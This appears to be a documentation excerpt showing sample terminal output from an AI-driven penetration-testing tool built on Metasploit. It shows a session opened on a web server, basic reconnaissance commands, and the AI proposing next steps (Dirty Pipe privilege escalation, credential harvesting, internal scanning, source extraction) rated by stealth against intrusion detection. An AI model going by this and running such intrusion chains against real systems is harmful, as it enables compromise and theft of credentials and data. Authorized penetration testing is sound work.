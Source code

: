 ```bash
✓ Authorization verified
✓ Audit log created (case-12345)

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[AI] Launching exploit via Metasploit...

[Metasploit] Starting handler on 0.0.0.0:4444
[Metasploit] Exploit executing...
[Metasploit] Sending payload to example.com...
[Metasploit] Session 1 opened (192.168.1.50:4444 -> 203.0.113.45:54321)

[AI] ✓ Exploit successful!
[AI] Session established in 4.2 seconds

[AI] Analyzing access level...

[Session-001] $ whoami
www-data

[Session-001] $ hostname
webserver-01

[Session-001] $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[AI] Access Analysis:
  User:         www-data (web server user)
  Hostname:     webserver-01
  OS:           Ubuntu 20.04.6 LTS
  Kernel:       5.15.0-25-generic
  Privileges:   LOW (standard user)
  Shell:        Interactive Meterpreter

[AI] Suggested next steps (ordered by impact):

1. Privilege Escalation to root
   Exploit: CVE-2022-0847 (Dirty Pipe)
   Success probability: 90%
   Impact: CRITICAL (full system control)
   Stealth: LOW (kernel exploit may trigger IDS)

2. Credential Harvesting
   Technique: Search for configuration files
   Success probability: 95%
   Impact: HIGH (database credentials, API keys)
   Stealth: HIGH (read-only operations)

3. Network Reconnaissance
   Technique: Scan internal subnet
   Success probability: 100%
   Impact: MEDIUM (discover additional targets)
   Stealth: MEDIUM (network scanning may be logged)

4. Web Application Source Code Extraction
   Technique: Download /var/www/html
   Success probability: 100%
   Impact: MEDIUM (intellectual property, hardcoded secrets)
   Stealth: HIGH (legitimate file access)

[AI] Would you like me to continue with step 1 (Privilege Escalation)? (yes/no):
```

---